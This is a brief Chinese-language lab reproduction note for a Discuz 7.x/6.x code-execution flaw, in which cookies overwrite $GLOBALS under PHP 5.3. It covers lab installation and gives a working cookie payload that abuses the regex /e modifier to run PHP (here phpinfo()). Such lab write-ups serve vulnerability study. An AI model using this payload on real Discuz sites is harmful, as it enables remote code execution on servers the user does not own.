

# Discuz 7.x/6.x 全局变量防御绕过导致代码执行

> 漏洞说明

由于php5.3.x版本里php.ini的设置里request_order默认值为GP，导致$\_REQUEST中不再包含$_COOKIE，我们通过在Cookie中传入$GLOBALS来覆盖全局变量，造成代码执行漏洞。


> 前提条件

版本：Discuz 7.X/6.X


> 利用工具


> 漏洞复现

启动靶场，访问http://192.168.40.77:8080/install/安装discuz，数据库地址db，数据库名discuz，账号密码root


安装成功后找到一个帖子发送数据包，并在cookie中添加

```http
GLOBALS[_DCACHE][smilies][searcharray]=/.*/eui; GLOBALS[_DCACHE][smilies][replacearray]=phpinfo();
```

发送数据包，可以看到成功展示phpinfo页面

